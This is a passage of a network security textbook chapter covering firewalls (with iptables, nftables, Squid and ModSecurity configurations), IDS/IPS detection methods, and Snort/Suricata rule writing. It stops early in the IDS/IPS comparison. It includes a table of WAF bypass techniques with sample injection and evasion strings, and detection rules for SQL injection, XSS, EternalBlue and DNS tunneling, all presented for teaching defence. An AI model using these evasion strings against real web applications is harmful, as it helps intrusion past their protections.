


# Chapter 3: Network Security

> **Prereq:** Chapter 2 (Cryptography) → TLS, IPsec, and WPA2 rely on cryptographic algorithms.
> **Next:** Chapter 4 (System Software Security) → host-based defenses complement network perimeter controls.

---

## Learning Objectives

- Identify common security threats at different layers of the OSI model
- Compare firewall architectures: packet filter, stateful, proxy, NGFW, WAF
- Explain IDS/IPS functionality, signature vs anomaly detection, and write Snort/Suricata rules
- Understand VPN mechanisms: IPsec, WireGuard, OpenVPN site-to-site and remote access
- Describe network segmentation: VLANs, DMZ, micro-segmentation
- Analyze protocol security for DNS, DHCP, BGP, SNMP
- Understand wireless security: WPA3, 802.1X, EAP, Rogue AP detection
- Explain DDoS mitigation strategies and zero trust networking principles
- Analyze real-world attacks: WannaCry, Mirai, Stuxnet

<!-- Image Gallery -->
<div style="display:flex;flex-wrap:wrap;gap:4px;margin:16px 0;padding:12px;background:#f8fafc;border-radius:8px;border:1px solid #e2e8f0;">
<a href="../../../assets/images/lessons/cyber-security/03-network-security/hero.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/lessons/cyber-security/03-network-security/handwritten-notes.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/lessons/cyber-security/03-network-security/sticky-notes.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/lessons/cyber-security/03-network-security/visual-explanation.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/lessons/cyber-security/03-network-security/architecture.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/lessons/cyber-security/03-network-security/workflow.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/lessons/cyber-security/03-network-security/mindmap.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/lessons/cyber-security/03-network-security/comparison.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/lessons/cyber-security/03-network-security/cheatsheet.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/lessons/cyber-security/03-network-security/interview-quiz.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/lessons/cyber-security/03-network-security/social-card.svg" target="_blank" rel="noopener">
  
</a>
</div>
<!-- End Image Gallery -->


---

## Table of Contents

1. Introduction & OSI Model Security Map
2. Firewalls → Packet Filter, Stateful, Proxy, NGFW, WAF
3. IDS/IPS → Signature vs Anomaly, Snort/Suricata Rules
4. Virtual Private Networks → IPsec, WireGuard, OpenVPN
5. Network Segmentation → VLANs, DMZ, Micro-segmentation
6. Protocol Security → DNS, DHCP, BGP, SNMP
7. Wireless Security → WPA3, 802.1X, EAP, Rogue AP
8. Network Access Control (NAC)
9. DDoS Mitigation Strategies
10. Zero Trust Networking
11. Case Studies → WannaCry, Mirai, Stuxnet
12. Practical Hands-On Lab
13. Comparison Tables
14. Applications in Real Systems
15. Interview Corner
16. Summary & Exercises

---

## Section 1: Introduction

### 1.1 The OSI Model Security Map

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-1-the-osi-model-security-map-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-1-the-osi-model-security-map-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-1-the-osi-model-security-map-sticky.svg" target="_blank" rel="noopener">
  
</a>


Network security must be applied at every layer of the OSI model. Each layer has distinct threats and corresponding countermeasures.

| OSI Layer | Protocol Example | Common Threats | Security Controls |
|-----------|-----------------|----------------|-------------------|
| 7 → Application | HTTP, DNS, SMTP | SQL injection, XSS, DNS poisoning | WAF, DNSSEC, input validation |
| 6 → Presentation | TLS/SSL | Weak cipher downgrade | Enforce TLS 1.2+ |
| 5 → Session | SOCKS, RPC | Session hijacking | Token rotation, mTLS |
| 4 → Transport | TCP, UDP | SYN flood, port scan | Stateful firewall, SYN cookies |
| 3 → Network | IP, ICMP | IP spoofing, Smurf attack | ACLs, ingress filtering, IPsec |
| 2 → Data Link | Ethernet, ARP | ARP spoofing, MAC flooding | Port security, Dynamic ARP Inspection |
| 1 → Physical | Cables, RF | Tapping, rogue AP | 802.1X, port authentication |

### 1.2 CIA Triad in Network Context

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-2-cia-triad-in-network-context-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-2-cia-triad-in-network-context-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-2-cia-triad-in-network-context-sticky.svg" target="_blank" rel="noopener">
  
</a>


- **Confidentiality** → Encryption (TLS, IPsec), VPNs
- **Integrity** → Hashing, digital signatures, HMAC
- **Availability** → DDoS mitigation, redundant paths, load balancing

### 1.3 Defense-in-Depth (Layered Security)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-3-defense-in-depth-layered-security-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-3-defense-in-depth-layered-security-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-3-defense-in-depth-layered-security-sticky.svg" target="_blank" rel="noopener">
  
</a>


```
Internet
   |
[WAF] → Application-layer filtering
   |
[NGFW] → Deep packet inspection, app control
   |
[IDS/IPS] → Threat detection and inline blocking
   |
[VPN Gateway] → Encrypted tunnels
   |
[DMZ] → Public-facing servers isolated
   |
[Internal Firewall] → Segmentation between zones
   |
[Internal Network]
   |
[NAC] → Endpoint compliance check
   |
[Host Firewall + EDR] → Endpoint protection
```

---

## Section 2: Firewalls

### 2.1 What Is a Firewall?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-1-what-is-a-firewall-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-1-what-is-a-firewall-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-1-what-is-a-firewall-sticky.svg" target="_blank" rel="noopener">
  
</a>


A firewall is a network security device that monitors and controls incoming and outgoing traffic based on predetermined security rules. It acts as a barrier between trusted internal networks and untrusted external networks.

**Real-World Analogy:** A firewall is like a security guard at a building entrance. The guard checks every person's ID (packet header), verifies they are expected (connection state), inspects their bag (deep packet inspection), and decides whether to allow entry based on rules.

### 2.2 Packet Filter Firewall (Stateless)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-2-packet-filter-firewall-stateless-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-2-packet-filter-firewall-stateless-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-2-packet-filter-firewall-stateless-sticky.svg" target="_blank" rel="noopener">
  
</a>


**How it works:** Examines each packet in isolation. Decisions are based solely on header fields:
- Source IP, Destination IP
- Source Port, Destination Port
- Protocol (TCP, UDP, ICMP)

**Configuration Steps (iptables):**

```
Step 1: Set default policies
  iptables -P INPUT DROP
  iptables -P FORWARD DROP
  iptables -P OUTPUT ACCEPT

Step 2: Allow loopback
  iptables -A INPUT -i lo -j ACCEPT

Step 3: Allow established connections
  iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

Step 4: Allow SSH from management subnet
  iptables -A INPUT -p tcp -s 192.168.1.0/24 --dport 22 -j ACCEPT

Step 5: Allow HTTP/HTTPS
  iptables -A INPUT -p tcp --dport 80 -j ACCEPT
  iptables -A INPUT -p tcp --dport 443 -j ACCEPT

Step 6: Log and drop everything else
  iptables -A INPUT -j LOG --log-prefix "FW-DROP: "
  iptables -A INPUT -j DROP
```

**Dry Run → Packet Filter Decision:**

Consider an incoming TCP SYN packet: `src=10.0.0.5:54321, dst=192.168.1.1:80`

```
Rule 1: -P INPUT DROP → default is drop
Rule 2: -i lo? No (comes from eth0) → skip
Rule 3: --state ESTABLISHED,RELATED? No (SYN is NEW) → skip
Rule 4: -p tcp --dport 22? No (dport is 80) → skip
Rule 5: -p tcp --dport 80? Yes → ACCEPT
```

**Complexity:**
- Time: O(n) where n = number of rules (linear scan)
- Space: O(1) per rule

**Advantages & Disadvantages:**

| Advantages | Disadvantages |
|------------|---------------|
| Very fast (simple header check) | No connection awareness |
| Low resource consumption | Cannot detect fragmented packet attacks |
| Simple to configure | No application-layer inspection |
| Hardware-efficient | Easily bypassed with source port manipulation |

**Edge Cases:**
- **IP fragmentation:** Fragmented packets may bypass rules that check Layer 4 headers (only first fragment has port info)
- **Source port manipulation:** Attackers use allowed source ports (e.g., 80, 443) to bypass rules
- **ICMP filtering:** Overly restrictive ICMP filtering breaks PMTUD (Path MTU Discovery)
- **UDP flooding:** Stateless firewalls cannot distinguish legitimate UDP from flood traffic

### 2.3 Stateful Firewall

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-3-stateful-firewall-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-3-stateful-firewall-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-3-stateful-firewall-sticky.svg" target="_blank" rel="noopener">
  
</a>


**How it works:** Maintains a connection state table. Decisions consider the entire session context, not individual packets.

**Connection Tracking Table:**

| Src IP | Src Port | Dst IP | Dst Port | Protocol | State |
|--------|----------|--------|----------|----------|-------|
| 10.0.0.5 | 52341 | 142.250.80.46 | 443 | TCP | ESTABLISHED |
| 10.0.0.5 | 52342 | 151.101.1.140 | 443 | TCP | TIME_WAIT |
| 192.168.1.1 | 22 | 10.0.0.5 | 54321 | TCP | ESTABLISHED |

**Dry Run → Stateful Decision for a Return Packet:**

Incoming packet: `src=142.250.80.46:443, dst=10.0.0.5:52341`

```
Lookup conntrack: {10.0.0.5:52341 → 142.250.80.46:443}
Find match (direction reversed): YES
State: ESTABLISHED → ALLOW
```

**nftables Equivalent (modern replacement for iptables):**

```
table inet filter {
    chain input {
        type filter hook input priority 0; policy drop;

        # Allow loopback
        i lo accept

        # Allow established/related
        ct state established,related accept

        # Allow specific services
        tcp dport {ssh, http, https} ct state new accept

        # Log dropped packets
        log prefix "nft-drop: " counter drop
    }
}
```

**Conntrack tool commands:**

```bash
# View active connection tracking
conntrack -L

# Expected output:
# tcp      6 431997 ESTABLISHED src=10.0.0.5 dst=142.250.80.46 sport=52341 dport=443
#   src=142.250.80.46 dst=10.0.0.5 sport=443 dport=52341 [ASSURED] mark=0 use=1

# Count connections
conntrack -C

# Expected output: 327

# Delete all connections from an IP
conntrack -D -s 10.0.0.5
```

**Complexity:**
- Time: O(1) for established connections (hash lookup) + O(n) for new connections
- Space: O(m) where m = number of active connections (up to millions)

**Advantages & Disadvantages:**

| Advantages | Disadvantages |
|------------|---------------|
| Connection-aware: blocks invalid packets (e.g., ACK without SYN) | Higher memory usage for state table |
| Protects against many spoofing and hijack attempts | State table exhaustion (DoS vector) |
| Automatically handles dynamic ports (FTP, SIP) | Slightly slower for first packet of each flow |
| More secure than stateless for same rule set | Complex to troubleshoot |

**Edge Cases:**
- **State table exhaustion:** Attackers fill the conntrack table with half-open connections (nftables can set `ct count` limits)
- **Asymmetric routing:** Packets take different paths; state table misses return traffic
- **FTP ALG:** Active FTP uses PORT command for dynamic ports; firewall must inspect FTP control channel
- **SIP/RTP:** VoIP uses dynamic RTP ports; stateful inspection required for media streams

### 2.4 Proxy Firewall (Application Gateway)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-4-proxy-firewall-application-gateway-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-4-proxy-firewall-application-gateway-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-4-proxy-firewall-application-gateway-sticky.svg" target="_blank" rel="noopener">
  
</a>


**How it works:** Acts as an intermediary. Clients connect to the proxy, which creates a separate connection to the destination. The proxy inspects application-layer data.

**Types:**
- **Forward Proxy:** Clients use proxy to access internet
- **Reverse Proxy:** External clients access internal servers through proxy
- **Transparent Proxy:** Intercepts traffic without client configuration

**Squid Proxy Configuration:**

```
# /etc/squid/squid.conf

# Allow local network
acl localnet src 192.168.1.0/24

# Define SSL ports
acl SSL_ports port 443

# Define safe ports
acl Safe_ports port 80      # http
acl Safe_ports port 443     # https

# Deny requests to unsafe ports
http_access deny !Safe_ports

# Deny CONNECT to non-SSL ports
http_access deny CONNECT !SSL_ports

# Allow localnet access
http_access allow localnet

# Default deny
http_access deny all

# Listen on port 3128
http_port 3128
```

**Advantages & Disadvantages:**

| Advantages | Disadvantages |
|------------|---------------|
| Full application-layer inspection | Performance overhead (terminates connections) |
| Hides internal network topology | Must understand each application protocol |
| Can cache content (reduced bandwidth) | Not all protocols can be proxied |
| Content filtering (URLs, malware) | Certificate management for HTTPS interception |

**Edge Cases:**
- **HTTPS interception:** Requires installing CA certificate on clients (man-in-the-middle design)
- **WebSocket support:** Not all proxies handle WebSocket upgrade properly
- **Non-HTTP protocols:** Custom TCP-based apps need SOCKS proxy instead
- **Authentication:** NTLM/Kerberos authentication can cause latency

### 2.5 Next-Generation Firewall (NGFW)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-5-next-generation-firewall-ngfw-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-5-next-generation-firewall-ngfw-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-5-next-generation-firewall-ngfw-sticky.svg" target="_blank" rel="noopener">
  
</a>


**How it works:** Combines traditional firewall capabilities with:
- Deep Packet Inspection (DPI) → inspects payload beyond headers
- Application Identification → recognizes apps regardless of port/protocol
- User Identity Awareness → integrates with AD/LDAP
- Encrypted Traffic Inspection → TLS/SSL decryption and inspection
- Intrusion Prevention System (IPS) → inline threat blocking

**NGFW vs Traditional Firewall:**

| Feature | Packet Filter | Stateful | NGFW |
|---------|--------------|----------|------|
| Header inspection | Yes | Yes | Yes |
| Connection tracking | No | Yes | Yes |
| App-layer inspection | No | Limited | Yes (DPI) |
| App identification | No | No | Yes |
| User identity | No | No | Yes (AD integration) |
| IPS integration | No | No | Yes |
| TLS inspection | No | No | Yes |
| Sandboxing | No | No | Often |

**Application Identification Example (Palo Alto):**

An NGFW identifies Facebook traffic even if it uses port 443 (HTTPS):
- Not fooled by source port 80
- Identifies Facebook's TLS SNI field
- Matches application signatures against traffic patterns
- Can block Facebook while allowing other HTTPS traffic through App-ID

**Advantages & Disadvantages:**

| Advantages | Disadvantages |
|------------|---------------|
| Comprehensive protection in one device | Expensive (licensing costs) |
| Application-level visibility | Performance degrades with DPI enabled |
| Simplified policy management | Complex configuration |
| TLS inspection catches encrypted threats | Privacy concerns with TLS inspection |

**Edge Cases:**
- **TLS 1.3 Encrypted SNI:** ESNI hides the server name, making app identification harder
- **QUIC protocol:** Google's QUIC over UDP bypasses some NGFWs; must be blocked or inspected
- **Custom protocols:** Proprietary encrypted protocols that NGFW cannot decode
- **False positives:** DPI may flag legitimate traffic as malicious

### 2.6 Web Application Firewall (WAF)

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-6-web-application-firewall-waf-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-6-web-application-firewall-waf-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-6-web-application-firewall-waf-sticky.svg" target="_blank" rel="noopener">
  
</a>


**How it works:** Specifically protects web applications from Layer 7 attacks: SQL injection, XSS, CSRF, RFI/LFI, etc. Can be deployed as:
- Network-based appliance
- Host-based module (ModSecurity)
- Cloud-based (Cloudflare WAF, AWS WAF)

**ModSecurity Configuration (OWASP CRS):**

```
# /etc/modsecurity/modsecurity.conf
SecRuleEngine On

# Detect SQL injection
SecRule REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_HEADERS|... \
  "@rx (?i:(?:select|union|insert|delete|update|drop|alter).*)" \
  "id:942100,phase:2,deny,status:403,msg:'SQL Injection Detected'"

# Detect XSS
SecRule ARGS "@rx (?i:<script|javascript:|onload=|onerror=)" \
  "id:941100,phase:2,deny,status:403,msg:'XSS Attempt Detected'"
```

**WAF Bypass Techniques:**

| Technique | Example | Countermeasure |
|-----------|---------|---------------|
| Case variation | `SeLeCt * FrOm` | Normalize to lowercase before matching |
| URL encoding | `%27%20OR%201=1` | Decode before inspection |
| Unicode evasion | `%c0%ae%c0%ae/` | Unicode normalization |
| HTTP Parameter Pollution | `?id=1&id=2` | Consistent parameter handling |
| HTTP Verb Tampering | GET instead of POST | Enforce HTTP verb whitelist |

**Advantages & Disadvantages:**

| Advantages | Disadvantages |
|------------|---------------|
| Blocks OWASP Top 10 attacks | Cannot prevent business logic flaws |
| Virtual patching (buy time before code fix) | False positives block legitimate traffic |
| Easy to deploy (reverse proxy) | Performance overhead per request |
| Protects legacy/unmaintained apps | TLS inspection complexity |

**Edge Cases:**
- **JSON/XML payloads:** WAF must parse complex nested JSON to detect injection
- **Multipart form data:** File uploads may contain malicious payloads in file content
- **GraphQL introspection:** WAF rules may not cover GraphQL query structures
- **WebSocket traffic:** Many WAFs do not inspect WebSocket messages

### 2.7 Firewall Types Comparison Table

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-7-firewall-types-comparison-table-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-7-firewall-types-comparison-table-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-7-firewall-types-comparison-table-sticky.svg" target="_blank" rel="noopener">
  
</a>


| Feature | Packet Filter | Stateful | Proxy | NGFW | WAF |
|---------|--------------|----------|-------|------|-----|
| OSI Layer | 3/4 | 3/4 | 7 | 3-7 | 7 |
| Connection Tracking | No | Yes | Yes (2 connections) | Yes | Yes |
| App Inspection | None | None | Full protocol | DPI | HTTP/HTTPS only |
| Performance | Highest | High | Moderate | Moderate (DPI heavy) | Moderate |
| Complexity | Low | Medium | High | High | Medium |
| Cost | Free (iptables) | Free (nftables) | Free (Squid) | $$$ (Palo Alto) | $$ (AWS WAF) |
| Use Case | Edge router ACL | Internal segmentation | Content filtering | Enterprise perimeter | Web app protection |
| Encrypted Traffic | No inspection | No inspection | Yes (MITM) | Yes (TLS decrypt) | Yes (reverse proxy) |

---

## Section 3: IDS and IPS

### 3.1 Overview

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-1-overview-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-1-overview-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-1-overview-sticky.svg" target="_blank" rel="noopener">
  
</a>


**IDS (Intrusion Detection System):** Passive monitoring → generates alerts but does not block traffic.
**IPS (Intrusion Prevention System):** Inline → automatically blocks malicious traffic.

**Real-World Analogy:** IDS is like a security camera that records everything and alerts when it sees something suspicious but cannot stop the event. IPS is like a security guard who stands at the door and physically stops threats from entering.

### 3.2 Detection Methods

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-2-detection-methods-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-2-detection-methods-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-2-detection-methods-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Signature-Based Detection:**

Matches traffic against a database of known attack patterns (signatures).

```
Example Snort Signature:
  alert tcp $EXTERNAL_NET any -> $HOME_NET 445
    (msg:"ET TROJAN WannaCry Ransomware SMBv1 Exploit";
     flow:to_server,established;
     content:"|ff|SMB|75 00|"; distance:0; within:4;
     reference:url,us-cert.cisa.gov/ncas/alerts/TA17-132A;
     classtype:trojan-activity; sid:2024223; rev:2;)
```

**Pros:** Low false positive rate, fast detection of known attacks.
**Cons:** Cannot detect zero-day or variant attacks.

**Anomaly-Based Detection:**

Establishes a baseline of "normal" behavior and flags deviations.

```
Example → Baseline:
  Normal HTTP request rate: 100-500 req/min per IP
  Normal packet size: 40-1500 bytes
  Normal protocol distribution: 60% TCP, 30% UDP, 10% ICMP

Anomaly Alert:
  IP 10.0.0.9: 12,000 req/min → ANOMALY (2400% over baseline)
```

**ML-based anomaly detection** uses unsupervised learning (autoencoders, isolation forests) to detect outliers in network traffic features.

**Pros:** Can detect novel/zero-day attacks.
**Cons:** Higher false positive rate, requires baseline training period.

### 3.3 Snort Rule Writing

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-3-snort-rule-writing-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-3-snort-rule-writing-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-3-snort-rule-writing-sticky.svg" target="_blank" rel="noopener">
  
</a>


**Snort Rule Structure:**

```
[action] [protocol] [src_ip] [src_port] -> [dst_ip] [dst_port] ([options])
```

**Rule Components:**

| Field | Options | Description |
|-------|---------|-------------|
| action | alert, log, pass, drop, reject | What to do on match |
| protocol | tcp, udp, icmp, ip | Layer 4 protocol |
| src_ip | any, IP, CIDR, ! negation | Source address |
| src_port | any, number, range (1:1024) | Source port |
| direction | -> (one-way), &lt;> (bidirectional) | Traffic direction |
| dst_ip | any, IP, CIDR | Destination address |
| dst_port | any, number, range | Destination port |

**Rule Options:**

```
msg: "message text"
content: "|hex| or text"; nocase; depth; offset; distance; within
sid: unique rule ID
rev: revision number
classtype: attack-classification
reference: url,url,cve,CVE-2024-XXXX
flow: to_server, from_server, established, stateless
metadata: custom key-value pairs
```

**Example Rules:**

```bash
# 1. Detect SQL Injection
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS
  (msg:"SQL Injection - UNION SELECT";
   flow:to_server,established;
   content:"UNION"; nocase;
   content:"SELECT"; nocase; distance:0;
   pcre:"/UNION.+SELECT/is";
   classtype:web-application-attack;
   sid:1000001; rev:1;)

# 2. Detect Port Scan (many ports from same source)
alert tcp $EXTERNAL_NET any -> $HOME_NET any
  (msg:"Port Scan Detected";
   threshold:type both, track by_src, count 20, seconds 10;
   classtype:attempted-recon;
   sid:1000002; rev:1;)

# 3. Detect SMB EternalBlue Exploit
alert tcp $EXTERNAL_NET any -> $HOME_NET 445
  (msg:"ET EXPLOIT Microsoft SMBv1 EternalBlue Exploit";
   flow:to_server,established;
   content:"|ff|SMBv"; depth:5;
   content:"|00 00 00|"; distance:0; within:4;
   byte_test:4,>,1000,0,relative;
   reference:cve,2017-0144;
   classtype:attempted-admin;
   sid:1000003; rev:1;)

# 4. Detect DNS Tunneling (long subdomain)
alert udp $EXTERNAL_NET 53 -> $HOME_NET any
  (msg:"DNS Tunneling - Long Subdomain";
   dsize:>100;
   content:"|01 00 00 01 00 00 00 00 00 00|"; depth:10;
   pcre:"/^[a-z0-9]{50,}\.[a-z]+\./R";
   classtype:unknown;
   sid:1000004; rev:1;)
```

### 3.4 Suricata Rule Writing

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-4-suricata-rule-writing-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-4-suricata-rule-writing-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-4-suricata-rule-writing-sticky.svg" target="_blank" rel="noopener">
  
</a>


Suricata is a modern, multi-threaded IDS/IPS that supports Snort-compatible rules plus advanced features.

```yaml
# suricata.yaml snippet
vars:
  address-groups:
    HOME_NET: "[192.168.1.0/24,10.0.0.0/8]"
    EXTERNAL_NET: "!$HOME_NET"
  port-groups:
    HTTP_PORTS: "80,8080,443"
    SHELLCODE_PORTS: "!80,443"
```

**Suricata-Specific Rule Features:**

```bash
# Suricata rule with file extraction
alert http $EXTERNAL_NET any -> $HOME_NET any
  (msg:"Suspicious EXE Download";
   fileext:"exe";
   filestore;
   classtype:unknown;
   sid:2000001; rev:1;)

# Suricata rule with TLS fingerprint
alert tls $EXTERNAL_NET any -> $HOME_NET any
  (msg:"Suspicious TLS Fingerprint - Malware C2";
   tls.fingerprint:"B5:4D:8A:91:...";
   classtype:trojan-activity;
   sid:2000002; rev:1;)

# Suricata rule with DNS query matching  
alert dns $HOME_NET any -> any 53
  (msg:"DGA Domain Detected";
   dns.query; content:"xyz"; distance:0;
   dns.flags; content:"|01 00|"; distance:0;
   classtype:unknown;
   sid:2000003; rev:1;)
```

**Running Snort/Suricata:**

```bash
# Snort inline IPS mode
snort -Q -c /etc/snort/snort.conf -i eth0

# Suricata IDS mode
suricata -c /etc/suricata/suricata.yaml -i eth0

# Suricata pcap analysis (offline)
suricata -c /etc/suricata/suricata.yaml -r capture.pcap

# Verify rules syntax
snort -T -c /etc/snort/snort.conf
```

### 3.5 IDS vs IPS Comparison

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/3-5-ids-vs-ips-comparison-handwritten.svg" target="_blank" rel="noopener">
  
</a>
